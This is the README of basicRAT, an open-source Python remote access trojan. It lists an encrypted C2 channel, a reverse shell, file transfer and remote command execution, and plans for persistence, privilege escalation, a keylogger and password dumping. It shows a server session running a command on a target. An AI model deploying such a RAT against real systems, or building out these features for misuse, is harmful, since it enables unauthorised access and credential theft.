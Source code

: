 # basicRAT

This is a Python RAT (Remote Access Trojan). basicRAT was created to maintain a clean design full-featured Python RAT. Currently a work in progress and still being hacked on.

**Disclaimer: This RAT is for research purposes only, and should only be used on authorized systems. Accessing a computer system or network without authorization or explicit permission is illegal.**

## Features
* Cross-platform
* AES CBC encrypted C2 with D-H exchange
* Reverse shell
* File upload/download

## Todo
* Client binary generation tool (cross-platform)
  * Pyinstaller
  * Switch options for remote IP, port, crypto, key, protocol, etc
* Persistance (cross-platform)
  * Windows: Registry keys, WMIC, Startup Dir
  * Linux: Cron jobs, services, modprobe
* Additional Crypto
* Common C2 Protocols (HTTP, DNS)
* Privilege Escalation (getsystem-esque, dirty cow)
* Screenshot
* Keylogger
* Accept connection from multiple clients
* Toolkit (wget, unrar, unzip)
* Scanning utility
* Password dumping (mimikatz / gsecdump)
* Tunneling

## Usage
```
$ python basicRAT_server.py --crypto AES --port 1337

 ____    ____  _____ ____   __  ____    ____  ______      .  ,
|    \  /    |/ ___/|    | /  ]|    \  /    ||      |    (\;/)
|  o  )|  o  (   \_  |  | /  / |  D  )|  o  ||      |   oo   \//,        _
|     ||     |\__  | |  |/  /  |    / |     ||_|  |_| ,/_;~      \,     / '
|  O  ||  _  |/  \ | |  /   \_ |    \ |  _  |  |  |   "'    (  (   \    !
|     ||  |  |\    | |  \     ||  .  \|  |  |  |  |         //  \   |__.'
|_____||__|__| \___||____\____||__|\_||__|__|  |__|       '~  '~----''
         https://github.com/vesche/basicRAT

basicRAT server listening on port 1337...

[127.0.0.1] basicRAT> help

download <file> - Download a file.
help            - Show this help menu.
persistence     - Apply persistence mechanism.
rekey           - Regenerate crypto key.
run <command>   - Execute a command on the target.
upload <file>   - Upload a file.
quit            - Gracefully kill client and server.

[127.0.0.1] basicRAT> run uname -a
Linux sandbox3 4.8.2-c9 #1 SMP Thu Oct 20 04:08:21 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

## Authors
* Austin Jackson [@vesche](https://github.com/vesche)
* Skylar Curits  [@deadPix3l](https://github.com/deadPix3l)

## Other open-source Python RATs for Reference
* [ahhh/Reverse_DNS_Shell](https://github.com/ahhh/Reverse_DNS_Shell)
* [sweetsoftware/Ares](https://github.com/sweetsoftware/Ares)
